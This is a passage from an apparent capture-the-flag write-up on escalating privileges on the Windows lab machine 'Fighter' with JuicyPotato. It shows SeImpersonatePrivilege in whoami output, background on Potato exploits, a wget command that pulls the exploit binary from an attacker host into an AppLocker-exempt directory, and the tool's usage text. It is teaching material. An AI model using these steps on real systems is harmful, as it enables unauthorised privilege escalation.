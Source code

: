 When I get a shell as sqlserv, that account has the `SeImpersonatePrivilege`:

    
    
    PS C:\programdata> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    

This is typical for an account running a service like IIS or MSSQL. But
there’s a series of exploits, the Potato family, that exploit this.

#### Background

When this box was created, what was state of the art for Potato exploits was
RottenPotato. One of the authors of this box is
[Decoder](https://twitter.com/decoder_it?lang=en), the author of several of
the Potato exploits, and an expert in this technology. [This blog
post](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#rottenPotato)
has a nice background of Potato exploits and their evolution.

When he created the box, he disabled the Background Intelligent Transfer
Service (BITS), which is the COM server that RottenPotato uses to elevate. It
turns out there are other DCOM services that can be exploited in the same
manner, and that led to Decoder and Ohpe’s developing
[JuicyPotato](https://decoder.cloud/2018/08/10/juicy-potato/). And that’s the
exploit that will work here.

#### CLSID Issues

I’ll download `JuicyPotato.exe` from the GitHub [release
page](https://github.com/ohpe/juicy-potato/releases/tag/v0.1), and upload it
to Fighter, saving it in the `color` directory to avoid AppLocker:

    
    
    PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/JuicyPotato.exe -outfile jp.exe
    

Running it shows how to call it:

    
    
    PS C:\windows\system32\spool\drivers\color> .\jp.exe
    JuicyPotato v0.1 
    
    Mandatory args: 
    -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
    -p <program>: program to launch
    -l <port>: COM server listen port
    